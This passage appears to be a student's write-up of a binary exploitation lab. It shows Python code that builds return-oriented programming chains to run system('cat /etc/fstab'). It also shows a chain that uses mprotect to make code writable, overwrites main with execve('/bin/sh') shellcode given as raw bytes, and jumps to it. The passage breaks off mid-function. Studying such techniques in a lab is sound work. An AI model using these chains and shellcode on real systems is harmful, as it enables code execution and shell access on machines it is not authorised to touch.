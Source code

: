 ```python
        random.shuffle(write_chains)
    write_chain = b"".join(write_chains)

    return zero_init_chain + write_chain + nl_recon_chain
```

### Part 4.a -- reading `/etc/fstab`

I use the `arbitrary_write_chain()` function to solve the first half of part 4
as such (see `rop-chain-cat.py`, and, again, `common.py` for the helper
functions):

```python
def task_4a():
    addr = 0x403160
    system_arg = "PATH=/bin cat /etc/fstab"

    rop = arbitrary_write_chain(addr, system_arg)

    rop = do_align(rop) # align if necessary after the write chain.

    # call system("PATH=/bin ...") then exit(0).
    rop += call_libc_chain("getline", "system", rdi = addr)

    rop = do_align(rop) # align if necessary after call to system()

    rop += call_libc_chain("system", "exit", rdi = 0)

    # prepend stack garbage and append newline.
    rop = b"\0" * 131 + rop + b"\n"
    sys.stdout.buffer.write(rop)
```

### Part 4.b -- something cool

Unfortunately, I am not feeling very creative, so my "cool thing" is just going
to be a demonstration of how my `arbitrary_write_chain()` function.

I write a ROP-chain which:

1) uses `mprotect` to make the `.text` section writable;
2) uses my `arbitrary_write_chain()` to replace `main` with a piece of shellcode
     containing newline bytes; and
3) jumps to address of `main` and executes that shellcode.

The shellcode itself simply calls `execve(/bin/sh, ...)` and is not very
interesting, but can be viewed in `shellcode.asm`. What's important is that it
contains `0xa` bytes.

Below snippet (from `rop-chain-cool.py`) shows the construction of the ROP chain
(again, please see `common.py` for the other helper functions):

```python
def cool_stuff():
    # please see shellcode.asm.
    shellcode = b"jhH\xb8%bin///sH\x83\xc0\nPT_1\xf6\x99j1\x80\x04$\nX\x0f\x05"

    # make main writable
    page_start = 0x400000 # start of the page containing .text
    page_size  = 0x1000
    rop = call_libc_chain("getline", "mprotect",
                          rdi = page_start, rsi = 0x1000, rdx = 0b111)

    addr_main  = 0x400809
    rop += arbitrary_write_chain(addr_main, shellcode)
    rop += int2bytes(addr_main)

```